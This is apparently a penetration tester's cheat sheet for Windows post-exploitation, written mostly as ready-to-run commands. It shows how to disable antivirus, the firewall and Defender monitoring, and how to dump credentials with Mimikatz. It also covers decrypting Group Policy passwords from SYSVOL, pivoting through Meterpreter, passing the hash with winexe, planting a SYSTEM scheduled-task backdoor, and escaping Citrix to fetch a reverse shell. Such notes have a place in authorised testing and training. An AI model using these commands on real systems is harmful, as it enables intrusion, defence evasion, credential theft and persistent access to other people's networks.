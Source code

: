 1. whoami

1.1 net user /whoami

1.2 whoami /priv

2. ipconfig

3. systeminfo

3.1 wesng

3.2 What architecture?

4. Run enum script

4.1 - Upload accesschk and 

4.2 - Batch or PS scripts

5. Identify  IP and name of internal DC

5.1 - Map DC drive to local:

5.1.1 ```net use z: \\$dc\sysvol```

5.1.2 ```z:```

5.1.3 Search for interesting files: dir /s Groups.xml (?)

5.1.3.1 If getting this far, copy to local and decrypt with: gpp-decrypt $hash

#### AV Running? I can killz?

```tasklist /svc```

```tasklist /svc | find /I “avg”```

Powershell: ```Get-WmiObject -Namespace "root\SecurityCenter2" -Class AntiVirusProduct  -ComputerName $name```

Batch: ```wmic /node:localhost /namespace:\\root\SecurityCenter2 path AntiVirusProduct Get DisplayNamed```

```sc stop $process```

```sc config "service name" start= disabled```

```taskkill /F /IM $avprocess.exe```

```net stop “service name"```


##### FW? #####

```netsh firewall show opmode```

```netsh firewall set opmode mode=disable```


##### Stop WInDefend Monitoring #####

```Set-MpPreference -DisableRealtimeMonitoring $true```



##### Migrate Meterpreter 32 -> 64 bit

meterpreter: ```ps -S "winlogon"```

meterpreter: ```migrate $new_pid```

##### Mimikatz

meterpreter: ```load mimikatz```

meterpreter: ```msv```

meterpreter: ```kerberos```

### Pivot 

#### Meterpreter 

1. Note IP address

2. Exit shell

3. Background Meterpreter

4. ```route add 10.10.0.0 255.255.255.0 $sessionNumber```

NOTE: *10.10.0.0 indicates the target internal network*

5. Reconnect to session

6. portfwd add -l $local_port -p $remote_port -r $target_ip 

##### PTH

1. Acquire password

2. Get winexe

3. Set up port forward if required

4. ```Kali:~# winexe -U $username%password //127.0.0.1 "cmd"```

#### Once Admin Set Up Persistent Backdoor

pwn == Task name

```schtasks /create /ru SYSTEM /sc minute /MO 10 /tn pwn /tr "\C:\evil.exe""```

```C:\ exit```

```meterpreter: portfwd delete -l $local_port -p $remote_port -r $target_ip ```

```background```

Start new handler and wait

#### Citrix

1. Login

2. What apps are available?

3. Open other programs?

3.1 Example: Internet Explorer

3.1.1 Help

3.1.2 Open notepad

3.1.3 Save 'powershell' to .bat file

4.1.4 Use Notepad again to open .bat (Run it)

4.2 Download new reverse shell

4.3 Handle with meterpreter

#### Elevate Existing Process via privesc exploit

1. Get meterpreter pid

```meterpreter: getpid```

```meterpreter: execute -H -f evil.exe -p "-pid $pid"```

